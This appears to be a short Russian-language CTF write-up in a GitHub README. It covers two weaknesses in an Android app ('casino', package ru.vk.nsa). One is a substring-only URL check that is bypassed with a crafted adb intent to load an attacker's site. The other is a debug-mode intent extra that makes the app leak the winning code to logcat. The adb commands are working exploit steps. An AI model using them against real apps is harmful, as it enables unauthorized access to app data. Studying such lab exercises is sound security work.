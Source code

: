 # casino


## Wiki 
В коде уязвимая регулярка которая просто проверяет на наличие в строке https://en.wikipedia.org
![image](https://github.com/ambushidozho/casino/assets/102957421/b3aad247-f8bb-4bc5-ab12-5da175033760)
Следовательно 
```sh
adb shell am start -n ru.vk.nsa/ru.vk.nsa.Wiki --es url https://vk.com?test='https://en.wikipedia.org'
```
с помощью такого интента мы можем поместить ссылку на любой сайт злоумышленника а также получить доступ к папке shared_pref

## Casino
В коде мы видим mode разработки, меняем его на debug, вводим буквенный код, при ошибке читаем логи, видим верный код, вводим, победа
```sh
adb shell am start -n ru.vk.nsa/ru.vk.nsa.Casino --es mode debug
```
```sh
adb logcat | grep 'expected:'
```
![tg_image_1376263483](https://github.com/ambushidozho/casino/assets/102957421/c6d9b76d-d747-44cc-a235-e2c7e0c20708)

![image](https://github.com/ambushidozho/casino/assets/102957421/ce553dcb-8f44-4274-8ea1-34d8599ae25f)

Вводим код, побеждаем
![image](https://github.com/ambushidozho/casino/assets/102957421/834aefdd-81b2-4dac-a8e6-140f0c8a9600)

